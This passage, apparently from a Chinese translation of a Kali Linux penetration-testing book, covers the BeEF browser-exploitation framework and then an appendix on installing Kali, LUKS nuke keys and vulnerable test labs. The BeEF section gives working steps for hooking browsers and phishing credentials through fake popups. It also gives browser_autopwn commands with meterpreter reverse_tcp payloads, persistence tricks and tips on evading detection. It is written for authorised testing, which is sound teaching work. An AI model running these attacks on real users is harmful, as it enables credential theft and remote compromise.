1.  编辑位于`/usr/share/beef-xss/extensions/metasploit/config.yml`的文件。您需要编辑`host`，`callback_host`和`os 'custom'，path`行，以包括您的 IP 地址和 Metasploit Framework 的位置。正确编辑的`config.yml`文件如下屏幕截图所示：

1.  启动`msfconsole`，并加载`msgrpc`模块，如下面的屏幕截图所示。确保您也包括密码：

1.  使用以下命令启动 BeEF：

```
root@kali:~# cd /usr/share/beef-xss/
root@kali:/usr/share/beef-xss/~# ./beef

```

1.  通过查看程序启动时生成的消息来确认启动。它们应该表明发生了**与 Metasploit 的成功连接**，并伴随着 Metasploit 利用已被加载的指示。成功的程序启动如下屏幕截图所示：

### 提示

当您重新启动 BeEF 时，请使用`-x`开关重置数据库。

在此示例中，BeEF 服务器正在`192.168.222.129`上运行，而“hook URL”（我们希望目标激活的 URL）是`192.168.222.129:80/hook.js`。

BeEF 的大部分管理和管理是通过 Web 界面完成的。要访问控制面板，请转到 `http://<IP 地址>:3000/ui/panel`。

默认的登录凭据是 `用户名：beef` 和 `密码：beef`，如下面的屏幕截图所示，除非这些在 `config.yaml` 中被更改。



# BeEF 浏览器的演示

当启动 BeEF 控制面板时，它将呈现 **入门** 屏幕，其中包含到在线站点的链接，以及可以用来验证各种攻击的演示页面。BeEF 控制面板如下屏幕截图所示：


如果您钩住了一个受害者，界面将分为两个面板：

+   在面板的左侧 **Hooked Browsers** 中，测试人员可以看到列出的每个连接的浏览器，以及有关其主机操作系统、浏览器类型、IP 地址和已安装插件的信息。因为 BeEF 设置了一个 cookie 来识别受害者，它可以参考这些信息并维护一个受害者的一致列表。

+   面板的右侧是所有操作的发起和结果的获取位置。在 **Commands** 选项卡中，我们看到了一个分类的存储库，其中列出了可以针对钩住的浏览器使用的不同攻击向量。这个视图会根据每个浏览器的类型和版本而有所不同。

BeEF 使用颜色编码方案来描述命令针对特定目标的可用性。使用的颜色如下：

+   **绿色**：表示命令模块针对目标有效，并且应该被受害者检测到

+   **橙色**：表示命令模块针对目标有效，但可能会被受害者检测到

+   **灰色**：表示命令模块尚未针对目标进行验证

+   **红色**：表示命令模块不针对目标有效。它可以使用，但其成功不被保证，并且使用可能被目标检测到

要注意这些指标，因为客户端环境的变化可能会使一些命令无效，或者可能导致其他意外的结果。

要开始攻击或钩住受害者，我们需要让用户点击 hook URL，其形式为 `<IP 地址>:<端口>/hook.js`。这可以通过各种方式实现，包括：

+   原始的 XSS 漏洞

+   中间人攻击（尤其是使用 **BeEF Shank**，**ARP** 欺骗工具，专门针对内部网络上的内部网站）

+   社会工程攻击，包括 BeEF 网页克隆和大规模邮件发送，使用 iFrame 冒充的自定义 hook 点，或者 QR 代码生成器

一旦浏览器被钩住，它被称为僵尸。从命令界面左侧的 **Hooked Browsers** 面板中选择僵尸的 IP 地址，然后参考可用的命令。

在下面的屏幕截图中显示的示例中，钩住的浏览器有几种不同的攻击和管理选项可用。其中最容易使用的攻击选项之一是社会工程学 Clippy 攻击。

当从 **Commands** 下的 **Module Tree** 中选择 **Clippy** 时，右侧会启动一个特定的 **Clippy** 面板，如下面的屏幕截图所示。它允许您调整图像、传递的文本以及如果受害者点击提供的链接将在本地启动的可执行文件。默认情况下，自定义文本通知受害者他们的浏览器已过时，提供更新，下载一个可执行文件（非恶意），然后感谢用户进行升级。所有这些选项都可以由测试人员更改。


当 Clippy 被执行时，受害者将在他们的浏览器上看到如下截图所示的消息：


这可以是一个非常有效的社会工程攻击。在与客户进行测试时，我们成功率（客户下载了一个非恶意的指示文件）约为 70%。

提示模块的工作方式类似。它不是向受害者的浏览器发送简单的警报，而是发送一个通知请求，提示受害者输入数据。在许多情况下，如果受害者被提示输入未定义的数据，他们会自动重新输入他们的密码。提示可以要求特定的数据，或者可以用来引导受害者到一个包含恶意软件的系统补丁的网站上下载。下面的截图显示了获取用户密码的最简单和最有效的攻击之一。


其中一个更有趣的攻击是 Pretty Theft，它要求用户提供他们在流行网站上的用户名和密码。例如，测试人员可以配置 Facebook 的 Pretty Theft 选项，如下面的截图所示：


当攻击执行时，受害者会看到一个弹出窗口，看起来是合法的，如下面的截图所示：


在 BeEF 中，测试人员可以从**命令结果**列的**数据**字段中查看攻击的历史记录，并得出用户名和密码，如下面的截图所示：


## 将 BeEF 和 Metasploit 攻击集成

BeEF 和 Metasploit 框架都是使用 Ruby 开发的，可以一起操作来利用目标。因为它使用客户端和服务器端的指纹识别来描述目标，`browser_autopwn`是最成功的攻击之一。

一旦目标被钩住，启动 Metasploit 控制台，并使用以下命令配置攻击：

```
msf > use auxiliary/server/browser_autopwn
msf auxiliary(browser_autopwn) > set LHOST 192.168.43.130
msf auxiliary(browser_autopwn) > set PAYLOAD_WIN32
  windows/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > set PAYLOAD_JAVA
  java/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > exploit 

```

等待所有相关的漏洞加载完成。在下面的截图示例中，加载了 18 个漏洞。还要注意攻击的目标 URL。在这个例子中，目标 URL 是`http://192.168.43.130:8080/ICprp4Tnf4Z`：



有几种方法可以指导浏览器点击目标 URL，但是，如果我们已经钩住了目标浏览器，我们可以使用 BeEF 的`redirect`功能。在 BeEF 控制面板中，转到**浏览器** | **钩住的域** | **重定向浏览器**。在提示时，使用此模块指向目标 URL，然后执行攻击。

在 Metasploit 控制台中，您将看到针对目标连续启动的攻击。成功的攻击将打开一个 Meterpreter 会话，如下面的截图所示：


要查看与受损目标的打开会话列表，请键入`sessions -l`。要与特定会话进行交互连接，例如会话 1，键入`sessions -i 1`。

## 使用 BeEF 作为隧道代理

隧道是将有效载荷协议封装在传递协议（如 IP）内的过程。使用隧道，您可以在网络上传输不兼容的协议，或者可以绕过配置为阻止特定协议的防火墙。BeEF 可以配置为充当模拟反向 HTTP 代理的隧道代理：浏览器会话成为隧道，而被钩住的浏览器成为出口点。当内部网络被入侵时，这种配置非常有用，因为隧道代理可以用于：

+   在受害者的浏览器中浏览经过身份验证的站点的安全上下文（客户端 SSL 证书、身份验证 cookie、NTLM 哈希等）

+   使用受害者浏览器的安全上下文来爬取挂钩域

+   促进工具的使用，如 SQL 注入

要使用隧道代理，请选择要定位的挂钩浏览器，右键单击其 IP 地址。在弹出框中，如下截图所示，选择**使用作为代理**选项：


配置浏览器以将 BeEF 隧道代理作为 HTTP 代理使用。默认情况下，代理的地址是`127.0.0.1`，端口是 6789。

如果您使用配置为 HTTP 代理的浏览器访问目标网站，所有原始请求/响应对将存储在 BeEF 数据库中，可以通过导航到**Rider** | **History**进行分析（日志摘录如下截图所示）。


攻击完成后，有一些机制可以确保保持持久连接，包括：

+   **确认关闭**：当受害者尝试关闭选项卡时，该模块会弹出一个**确认导航 - 您确定要离开此页面**的弹出窗口。如果用户选择**离开此页面**，它将不起作用，并且**确认导航**弹出窗口将继续出现。

+   **弹出模块**：这在`config.yaml`中进行了配置。该模块尝试打开一个小的弹出窗口，以保持浏览器挂钩，如果受害者关闭主浏览器选项卡。这可能会被弹出窗口拦截器阻止。

+   **iFrame 键盘记录器**：重写网页上的所有链接，以覆盖原始页面高度和宽度的 iFrame。为了最大的有效性，它应该附加到 JavaScript 键盘记录器上。理想情况下，您会加载挂钩域的登录页面。

+   **浏览器中间人**：该模块确保每当受害者单击任何链接时，下一个页面也将被挂钩。避免这种行为的唯一方法是在地址栏中键入新地址。

最后，尽管 BeEF 提供了一系列优秀的模块来执行侦察，以及杀伤链的利用和后利用阶段，但已知的 BeEF 默认活动（/hook.js 和服务器标头）被用于检测攻击，降低了其有效性。测试人员将不得不使用诸如 Base64 编码、空格编码、随机化变量和删除注释等技术来混淆他们的攻击，以确保将来的完整有效性。

# 总结

在本章中，我们研究了针对通常与受保护网络隔离的系统的攻击。这些客户端攻击侧重于特定应用程序的漏洞。我们审查了敌对脚本，特别是 VBScript 和 PowerShell，这些脚本在测试和破坏基于 Windows 的网络方面特别有用。然后，我们研究了跨站脚本框架，它可以利用 XSS 漏洞，以及 BeEF 工具，它针对 Web 浏览器的漏洞。XSSF 和 BeEF 都与 Kali 上的侦察、利用和后利用工具集成，提供了全面的攻击平台。

本章结束了《精通 Kali Linux 高级渗透测试》。我们希望这本书能帮助您了解攻击者如何使用 Kali 等工具来破坏网络，以及您如何使用相同的工具来了解网络的漏洞并在您自己的网络受到损害之前加以调解。

# 附录 A. 安装 Kali Linux

Kali Linux 是一个基于 Linux 的操作系统，用作支持数百种不同应用程序的平台，用于审计网络的安全性。其复杂性与安装和使用它的多种方法相匹配。本章将涵盖安装 Kali 时需要考虑的一些因素，并将重点放在如何尽快启动和运行安全的虚拟机上。它还将探讨如何建立和维护一个廉价的站点，以测试本书中涵盖的材料。

# 下载 Kali Linux

有多种选项可用于下载和安装 Kali Linux。在本出版物发布时，最新版本是 1.06；但是，1.07 版本即将发布。当前版本可从官方网站([www.kali.org/downloads/](http://www.kali.org/downloads/))以 32 位和 64 位编译版本下载。

**Offensive Security**提供了预配置的**高级 RISC 机器**（**ARM**）处理器的版本（例如，Galaxy Note 10.1、Raspberry Pi 和 Samsung Chromebooks）可供下载；支持 ARMEL 和 ARMHL 平台。此外，预制的 VMware 映像也可在[`www.offensive-security.com/kali-llnux-vmware-arm-image-download/`](http://www.offensive-security.com/kali-llnux-vmware-arm-image-download/)上在线获取。

下载适当的映像后，请确保 SHA1 校验和文件是由 Kali 生成的（它将使用官方 Kali 加密密钥进行签名，可在线获取以验证下载的真实性），并检查 SHA1 校验和以验证映像的完整性。验证工具内置于 Linux 和 OSX 操作系统中；但是，您将不得不使用第三方工具，如**hashtab**（[`www.implbits.com/HashTab/HashTabWindows.aspx`](http://www.implbits.com/HashTab/HashTabWindows.aspx)）用于 Windows 操作系统。

如果您希望构建 Kali 的自定义版本，特别是具有备用桌面或工具集的版本，可以使用[`docs.kali.org/live-build/generate-updated-kali-iso`](http://docs.kali.org/live-build/generate-updated-kali-iso)上提供的 live-build 脚本。

# Kali Linux 的基本安装

一旦您获得了适当的 Kali Linux 发行版，就必须安装以供使用。以下安装选项可用：

+   安装到 i386、AMD64 或 ARM 系统硬盘。Kali Linux 将是设备启动时唯一的主机操作系统。

+   双启动系统。通常，在使用 MS Windows 操作系统时选择此选项。在启动时，用户可以选择将系统启动为 Kali Linux 或 Windows 操作系统。这比直接安装 Kali 到硬盘提供了更多的灵活性；但是，在两个系统之间切换会变得困难。

+   直接安装到 DVD 驱动器或 USB 设备。如果主机系统可以配置为从 USB 设备启动，则这是非常有用的；但是，如果 USB 设备需要是*持久的*（在测试过程中对基于操作系统、应用程序和数据所做的所有更改都将被保留），则需要进行额外的配置更改。

+   使用 VMware 或 VirtualBox 等产品安装为虚拟机。我们发现这是支持渗透测试最灵活的选项。

+   Kali 支持两种类型的网络安装——**迷你 ISO**安装和**网络 PXE**安装。迷你 ISO 在系统上安装了一个缩减版的 Kali 发行版，然后依赖快速网络连接来安装其余所需的应用程序，以获得有效的最终产品。网络 PXE 安装在引导过程中支持终端（没有 CD-ROM 和 USB 端口），获取 IP 地址信息并安装 Kali。

+   现在可以从云中使用 Kali-Amazon EC2 市场提供了 Kali 的 64 位最小镜像（[`aws.amazon.com/marketplace/pp/B00HW50E0M`](https://aws.amazon.com/marketplace/pp/B00HW50E0M)）。Kali 镜像是免费的，用户只需支付常规的 AWS 使用费。

### 提示

由于亚马逊的规定，此版本的 Kali 默认不使用 root 帐户。一旦您从亚马逊获取了 SSH 密钥，您必须以用户身份连接到 Kali 实例，然后切换到 root。您可能需要下载其他工具来支持测试。最后，您必须通知亚马逊，它正在用于合法的安全测试，而不是作为攻击工具。

## 将 Kali Linux 安装到虚拟机

在本书中，Kali 被配置为虚拟机（VM）。在进行渗透测试时，虚拟机具有以下优势：

+   可以开发和维护一个常见的测试虚拟机，确保测试人员熟悉工具集及其对典型目标系统的影响。

+   虚拟机可以快速在主机和客户操作系统之间切换，允许测试人员在 Windows 和 Linux 平台之间移动，以找到测试的最佳工具组合。

+   虚拟机是可移动的-它们可以移动到不同的系统和操作平台。

+   虚拟机可以保留在库中以便进行回归测试。在使用一组工具验证网络或系统的安全性后，测试人员经常被问及他们的方法和工具是否会检测到测试时存在的特定漏洞。测试人员可以返回并使用存档的虚拟机重新测试漏洞，以确定是否会被检测到或网络是否处于受攻击的风险中。

虽然可以下载预制的虚拟机，但大多数测试人员使用经过验证的 ISO 镜像创建自己的虚拟机（将 Kali 安装到虚拟机的过程几乎与将其安装到硬盘或媒体（如 USB 键）相同）。Kali 支持 VMware 和 Oracle VirtualBox 虚拟机。

总的来说，该过程简单且由应用程序向导引导您完成。例如，使用 VMware 时，该过程如下：

1.  选择**创建新虚拟机**图标以创建新的虚拟机。

1.  选择使用 ISO 镜像创建虚拟机。

1.  选择客户操作系统。

1.  设置 ISO 镜像的名称和位置。

1.  设置磁盘空间；最小使用量应为 12 GB，但至少要留出 20-25 GB。至少应为虚拟机提供 1 GB 内存；但是，如果您要测试大型网络并将使用多线程工具，则可能希望将其增加至至少 3 GB。

1.  审查硬件配置。

### 提示

确保虚拟机配置为仅对主机操作系统可见，特别是如果尚未更新。如果您正在配置虚拟机用作目标，请注意，如果它对互联网可见，您的测试平台可能会受到外部攻击者的威胁。

1.  启动虚拟机。引导菜单将提供几个选项；选择**图形安装**。

1.  按照提示选择正常语言、时区、主机名和设置 root 密码。

1.  在设置磁盘分区时，如果不使用双引导选项，可以将整个分区设置为虚拟磁盘。建议您在此时选择此选项进行全盘加密。

1.  虚拟机应用程序将完成分区，将更改写入磁盘，然后安装系统文件。在提示输入一些额外的配置信息后，虚拟机将重新启动。

1.  此时，系统已经启动。按照第一章中描述的配置支持渗透测试，*开始使用 Kali Linux*。

### 提示

Kali 的预配置分发通常依赖于默认的用户名和密码，并可能具有预生成的 SSH 主机密钥。这些应尽快更改。

## 全盘加密和清除主密钥

渗透测试人员通常手中持有敏感信息-成功的测试可以揭示客户网络中的缺陷，甚至用于进行渗透测试的工具在某些司法管辖区可能被视为非法。因此，测试人员经常使用全盘加密来保护其系统。

在安装到硬盘或虚拟机的分区阶段，Kali 可以设置为使用**逻辑卷管理**（**LVM**）和**Linux 统一密钥设置**（**LUKS**）的组合进行全盘加密，这是 Linux 硬盘加密的标准应用程序。如下图所示：


访问加密驱动器需要密码短语，并建议密码短语长度为 20 个或更多字符。不幸的是，鉴于最近出现的国家赞助的监视，有人担心测试人员可能会被迫向政府特工提供密码短语，从而消除加密的好处。

解决方案是提供一个将销毁或破坏主密钥的密码短语。这将确保机密性，使得无法解密驱动器。这一功能最近添加到 Kali Linux 1.06 版本中。

Kali Linux 集成了 LUKS，这是一个平台无关的加密规范，允许用户对硬盘上的分区进行加密。LUKS 允许多个用户密钥解密主密钥，允许多个用户对数据进行加密和解密，并允许使用备份密钥。

创建 LUKS 加密容器时，会生成一个随机主密钥。该主密钥使用密码短语进行加密。这种方法的优势在于密码短语不直接与数据相关联-如果两个相同的卷被加密并使用相同的密码短语，则主密钥仍然是唯一的，并且不能互换。

这意味着如果主密钥丢失或损坏，就不可能恢复加密数据。这种属性允许我们通过故意擦除主密钥来销毁加密卷或硬盘的恢复，如果输入特定密码短语。紧急自毁功能是在 Kali Linux 1.06 版本中添加的，并可以使用 cryptsetup 实用程序实现。

要使用销毁功能：

1.  使用**全盘加密**选项安装 Kali。在安装 Kali 之前，所有分区将被擦除；这将导致安装速度变慢。

1.  使用以下命令验证加密硬盘的 LUKS 头信息：

```
root@kali:~# cryptsetup luksDump /dev/sda5

```

**密钥槽 0**，与磁盘加密密码相关联，已启用。其余密钥槽未使用。以下是先前命令的执行结果：


1.  使用以下命令添加`销毁`密钥：

```
root@kali:~# cryptsetup luksAddNuke /dev/sda5

```

系统将提示您输入现有密码短语以验证身份，然后要求您输入新密码短语以用于销毁选项。请注意-它不会提示用户重复输入密码短语，以防止输入错误。以下是先前命令的执行结果：


1.  要确认销毁密钥是否已启用，请查看可用密钥槽的列表，使用以下命令：

`密钥槽 1`现在已启用；它包含销毁密钥。

1.  使用以下命令备份密钥：

```
root@kali:~# cryptsetupluksHeaderBackup --header-backup-file 
  <filename> /dev/sda5 

```

1.  主密钥文件备份后，对其进行加密并将其转移到系统外进行安全存储。有几种应用程序可用于加密（例如，7 Zip，bcrypt，ccrypt 和 GnuPG），或者您可以使用内部命令，如`openssl`。示例命令如下：

```
root@kali:~# opensslenc -aes-256-cbc -salt -in <filename>
  -out <encrypted filename.enc> 

```

当备份文件被保护后，您的系统将受到强制密码提取的保护。如果输入了核弹密码，主密钥的本地副本将被销毁，从而无法访问加密文件。

如果在输入核弹密码后转储 LUKS 头部，您将看到如下截图所示的输出：


如果您想恢复一个被迫销毁的驱动器？只要您可以从远程存储位置检索加密头部，这就是一个简单的问题；您将能够解密硬盘并恢复数据。一旦解密了加密头部（使用基于保护文件的方法的适当解密命令），输入以下命令：

```
root@kali:~# cryptsetupluksHeaderRestore --header-backup-file 
  <filename> /dev/sda5 

```

这将生成以下警告：

```
Device /dev/sda5 already contains LUKS header, Replacing header will 
  destroy existing keyslots. Are you sure? 

```

当提示时，输入`YES`。这将替换头部并允许您解密硬盘。

# 建立测试环境

在测试生产环境之前，测试人员充分了解如何使用测试工具，它们对目标系统的影响，以及如何解释与针对目标执行的活动相关的数据是非常重要的。

在受控环境中进行测试通常会产生与在生产系统上运行相同测试时不同的结果，原因包括以下几点：

+   目标环境中的操作系统与测试环境中的操作系统不同，包括操作系统的不同版本。（XP 与 Windows 8.1 显然不同，但 Windows 8.1 专业版和企业版之间或 32 位和 64 位操作系统之间也存在差异。）为了支持本地语言而对操作系统进行的修改也可能对漏洞的存在产生重大影响。

+   目标环境具有不同的服务包、补丁或升级。

+   目标环境安装了不同的第三方应用程序；这些应用程序可能与网络流量冲突，引入新的漏洞，或影响测试人员利用现有漏洞的能力。

+   在主机环境中配置为虚拟机的目标可能与直接安装在裸机上的目标系统有不同的反应。

+   目标受到各种网络和系统设备以及应用程序的保护。

为了获得最佳结果，测试人员（和攻击者）通常使用两阶段测试过程。测试人员首先使用一个明确定义的虚拟机（如 Windows XP）执行攻击，以确定最有效的攻击工具和方法；一旦这个简单的测试案例被证明，测试人员会使用一个更复杂的虚拟或物理网络重新验证攻击，尽可能地模拟目标网络。

## 易受攻击的操作系统和应用程序

测试人员通常会维护当前和历史操作系统的库。

在测试微软操作系统时，WinXP 被用作测试漏洞的*参考标准*。尽管 Windows XP 将在 2014 年停用，并且不再得到微软的支持，但它将继续存在于许多网络中的服务器和工作站，以及嵌入在打印机和销售点终端等设备中。

在测试易受攻击的 Windows 操作系统时，订阅 MSDN（[`msdn.microsoft.com/en-ca/subscriptions/aa336858`](http://msdn.microsoft.com/en-ca/subscriptions/aa336858)）是非常宝贵的，以便获得实验室中测试当前微软产品的访问权限。

### 提示

不要使用从公共文件共享服务（如 Torrent 站点）下载的操作系统。DigitalDefence 最近评估了从 Torrent 站点下载的 40 个微软操作系统下载 - 每个下载都被感染了一个后门，以允许攻击者远程访问。

要测试具有特定漏洞的旧第三方 Windows 应用程序，测试人员可以访问保留旧应用程序副本的在线存储库；其中许多包括可利用的漏洞。此类存储库的示例可在以下链接中看到：

+   [`www.oldapps.com`](http://www.oldapps.com)

+   [www.oldversion.com](http://www.oldversion.com)

由于它们的开源性质，多个版本的类 Unix 操作系统（Linux、BSD 和 Solaris）可供下载和测试。

以下项目将允许您测试已知漏洞的 Unix 操作系统安装，您可以访问：

+   Damn Vulnerable Linux ([`sourceforge.net/projects/virtualhacking/files/os/dvl/`](http://sourceforge.net/projects/virtualhacking/files/os/dvl/))

+   LAMPSecurity ([`sourceforge.net/projects/lampsecurity/`](http://sourceforge.net/projects/lampsecurity/))

+   Metasploitable2 ([`sourceforge.net/projects/virtualhacking/files/os/metasploitable/`](http://sourceforge.net/projects/virtualhacking/files/os/metasploitable/))

通常可以在应用程序的网站上下载具有已知漏洞的旧 Unix 应用程序。

可以从 VulnHub 存储库（[`vulnhub.com`](http://vulnhub.com)）下载用于测试的复杂环境（操作系统和易受攻击的应用程序）。这些镜像通常附有演练，演示了利用镜像的各种方法。其中一些镜像包括以下内容：

+   **bWAPP**：这提供了几种方法来破坏示例网站

+   **VulnVPN**：这允许测试人员利用 VPN 服务以访问服务器和内部服务并获得 root 访问权限

+   **VulnVoIP**：这允许测试人员进行侦察并允许利用 VoIP 网络

最后，测试人员将希望利用一些可用于测试的易受攻击的基于 Web 的应用程序。

最常见的测试目标之一是名为 Metasploitable 的 Linux 镜像。基本操作系统存在多个漏洞；此外，它在启动时加载易受攻击的 Web 应用程序。要访问这些应用程序，请将 Metasploitable 作为 VM 打开，然后启动一个带有 Kali Linux 的单独 VM。在 Kali VM 中，打开浏览器并输入 Metasploitable VM 的 IP 地址。您将看到菜单选项，如下图所示：



基于 Web 的应用程序可以用于支持企业测试以及针对 Web 应用程序的特定攻击。以下是五个应用程序：

+   **TWiki**：这是一个支持企业协作的维基应用程序，在测试过程中使用结构化内容创建简单的工作流系统

+   **phpmyadmin**：允许通过 Web 远程管理 MySQL 数据库

+   **webdav**：**Web 分布式创作和版本控制**的一组扩展，允许用户协作编辑和管理远程 Web 服务器上的文件

+   **Mutillidae**：一个易受攻击的 Web 黑客应用程序，由易受攻击的 PHP 脚本组成，易受 OWASP 前 10 个漏洞的影响

如您在以下屏幕摘录中所见，前 10 个漏洞可在下拉菜单中找到。例如，选择选项**A2 - 跨站脚本**（**XSS**）将使您访问与特定漏洞类型匹配的子菜单（**反射**，**持久**，**DOM 注入**等）。



### 提示

`Mutillidae`配置文件中指定的数据库是不正确的，您可能会收到需要数据库访问的多个错误。要解决这些问题，请登录到 Metasploitable2 并编辑`/var/www/mutillidae/config.inc`文件；将`dbname`字段从`metasploit`更改为`owasp10`。

+   最后，Metasploitable 框架启动了**Damn Vulnerable Web Application**（**DVWA**），提供了一组不同的挑战，以练习针对特定漏洞的攻击。

其他易受攻击的基于 Web 的应用程序已经得到了很好的描述，包括以下内容：

+   **Hackxor**：这是一个 Web 应用程序黑客游戏，迫使玩家通过故事解决与各种漏洞相关的挑战（[`hackxor.sourceforge.net/cgi-bin/index.pl`](http://hackxor.sourceforge.net/cgi-bin/index.pl)）。

+   **Foundstone**：这个公司发布了一系列易受攻击的 Web 应用程序，包括银行、书店、赌场、航运和旅行网站（[www.mcafee.com/us/downloads/free-tools/index.aspx](http://www.mcafee.com/us/downloads/free-tools/index.aspx)）。

+   **LAMPSecurity**：这提供了一系列易受攻击的虚拟机，旨在教授 Linux、Apache、PHP 和数据库安全性（[`sourceforge.net/projects/lampsecurity/files/`](http://sourceforge.net/projects/lampsecurity/files/)）。

+   **OWASP Broken Web Applications Project**：这是一系列易受攻击的 Web 应用程序（[`code.google.com/p/owaspbwa/`](http://code.google.com/p/owaspbwa/)）。

+   **WebGoat**：这是一个不安全的 J2EE Web 应用程序，试图提供一个真实的测试环境。它由 OWASP 维护（[`www.owasp.org/index.php/Category:OWASP_WebGoat_Project`](https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project)）。

+   **Web Security Dojo**：这是由 Maven Security 发布的培训应用程序（[`www.mavensecurity.com/web_security_dojo/`](https://www.mavensecurity.com/web_security_dojo/)），包含几个目标图像，包括 Damn Vulnerable Web App、Google 的 Gruyere、Hackme 的 Casino、OWASP 的 Insecure Web App 和 WebGoat、w3af 的测试网站，以及几个特定漏洞的目标。它还包含一套工具来支持利用。
